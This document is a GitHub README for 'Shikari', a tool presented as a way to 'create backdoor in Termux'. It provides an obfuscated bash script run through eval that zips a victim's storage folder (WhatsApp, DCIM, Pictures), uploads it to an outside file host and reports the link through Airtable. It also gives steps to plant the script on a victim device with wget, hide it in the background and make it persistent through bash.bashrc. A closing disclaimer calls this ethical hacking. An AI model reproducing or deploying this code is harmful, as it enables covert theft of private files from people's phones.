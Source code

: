 
<h1 align="center">
  <br>
  <a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/shikari.gif" alt=""></a>
  <br>
  Shikari
  <br>
</h1>

<h4 align="center">Create Backdoor in Termux</h4>

## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
copy below code and paste it in your Bash/Shell Script.

```
#!/bin/bash

api=
base=
table=
folder=

z="
";cCz=' {" ';mCz='/Shi';kBz='om/v';hCz=' "Na';NCz='Cont';eCz='fiel';VBz='nk2';TBz=' lin';lCz='4You';Cz='shik';iBz='rtab';jBz='le.c';uz='[]=@';xCz=' '\''"'\''';Jz='echo';iz='$fol';ICz='eare';BDz='}'\''" ';XCz='  "'\''';mBz='ase/';FCz='oriz';Xz='all ';KCz='pi" ';MCz='ipt2';jz='der ';ADz=']" >';Bz='pt=.';qBz='crip';kCz='Bhai';rBz='t2';bCz='    ';xz='s://';fBz='tps:';Az='scri';hz='red/';xBz=' "" ';YBz='dev/';uCz='$(ca';TCz='on" ';Yz='zip ';cBz='v -X';tBz='tf "';Wz='inst';qCz='ript';RBz=' htt';nz=' /de';oCz='" >>';HBz=' > l';VCz='data';tz='iles';vz='ari.';ABz='ninj';aCz=': ["';Gz='k';CBz='load';Ez='pt2=';gBz='//ap';OCz='ent-';PBz='2 | ';XBz='&> /';bBz='rl -';eBz='T ht';Fz='.hac';nBz='$tab';Tz='vice';UBz='f li';ez='hika';JCz='r $a';Zz='-y &';wCz='nk)"';dCz='   "';GCz='atio';wz='http';Nz='/sha';aBz=' "cu';Vz='pkg ';IBz='ink2';Iz=' \'\''';pz='ll';iCz='me"'\''';lBz='0/$b';SCz='n/js';Lz='/sto';jCz=': " ';kz='devi';BBz='a/up';PCz='Type';EBz='?out';cz='ull';vCz='t li';mz='g &>';tCz=' "'\'' ';pBz='> $s';fCz='ds"'\''';QCz=': ap';bz='ev/n';lz='celo';vBz=' >> ';ACz='  -H';pCz=' $sc';sBz='prin';Mz='rage';rCz='2';dz='-r s';FBz='put=';MBz='f de';LCz='$scr';CCz='tf '\''';DBz='.php';ECz='Auth';QBz='grep';Pz='term';Hz='ps='\''';WBz='rvf ';az='> /d';Uz='log';OBz='link';rz=' -i ';fz='ri.z';NBz='cat ';SBz='ps >';WCz=' '\''{"';Kz='cd ~';HCz='n: B';Oz='red';sCz='," >';wBz='pt2';BCz=' " >';UCz='  --';qz='curl';uBz='$ps"';RCz='plic';sz='-F f';ZCz='rds"';yCz='}" >';YCz='reco';hBz='i.ai';gz='ip ~';GBz='text';yBz='>> $';DCz='"'\'' >';Rz='nfo ';nCz='kari';Dz='ari';oBz='le" ';KBz='1';yz='tmp.';Sz='> de';dBz=' POS';oz='v/nu';JBz=' 2>&';LBz='rm -';ZBz='null';gCz=': {"';Qz='ux-i';
eval "$Az$Bz$Cz$Dz$z$Az$Ez$Fz$Gz$z$Hz$Iz$z$Jz$z$Kz$Lz$Mz$Nz$Oz$z$Pz$Qz$Rz$Sz$Tz$Uz$z$Vz$Wz$Xz$Yz$Zz$az$bz$cz$z$Yz$dz$ez$fz$gz$Lz$Mz$Nz$hz$iz$jz$kz$lz$mz$nz$oz$pz$z$qz$rz$sz$tz$uz$Cz$vz$Yz$wz$xz$yz$ABz$BBz$CBz$DBz$EBz$FBz$GBz$HBz$IBz$JBz$KBz$z$LBz$MBz$Tz$Uz$z$NBz$OBz$PBz$QBz$RBz$SBz$TBz$Gz$z$LBz$UBz$VBz$z$LBz$WBz$Cz$vz$Yz$XBz$YBz$ZBz$z$Jz$aBz$bBz$cBz$dBz$eBz$fBz$gBz$hBz$iBz$jBz$kBz$lBz$mBz$nBz$oBz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$ECz$FCz$GCz$HCz$ICz$JCz$KCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$NCz$OCz$PCz$QCz$RCz$GCz$SCz$TCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$UCz$VCz$WCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$XCz$vBz$LCz$MCz$z$sBz$tBz$YCz$ZCz$vBz$LCz$MCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$aCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$cCz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$dCz$eCz$fCz$vBz$LCz$MCz$z$sBz$tBz$gCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$hCz$iCz$vBz$LCz$MCz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$kCz$lCz$mCz$nCz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$sCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$tCz$yBz$Az$wBz$z$sBz$tBz$OBz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uCz$vCz$wCz$vBz$LCz$MCz$z$Jz$xCz$vBz$LCz$MCz$z$sBz$tBz$bCz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$ADz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$BDz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz"
```

+ Add your API id, base id and table id without space.
+ Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music)
+ Then save it "shikari.sh" and upload on your GitHub account.
### Step 5

+ Now you can download "shikari.sh" script on victim device by wget command.
+ You can add this command in any script.

Example.,
```
wget https://raw.githubusercontent.com/.../../master/shikari.sh
```

### Background Process
+ Add this code in your new hack.sh script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="bash shikari.sh";
_evalBg "${cmd}";
```
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>

### How it works ??
+ Shikari is API based tool 🦴

```
curl -v -X POST https://api.airtable.com/v0/#baseid/#tablename \
  -H "Authorization: Bearer #apikey" \
  -H "Content-Type: application/json" \
  --data '{
  "records": [
    {
      "fields": {
        "Name": "#toolname",
        "link": "https://bhai4you.blogspot.com"
      }
    }
  ]
}'
```
✓ All files uploaded through Airtable API</br>
✓ Change #baseid, #apikey, #tablename, #toolname and save it demo.sh</br>
✓ bash demo.sh [for testing]</br></br>
### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
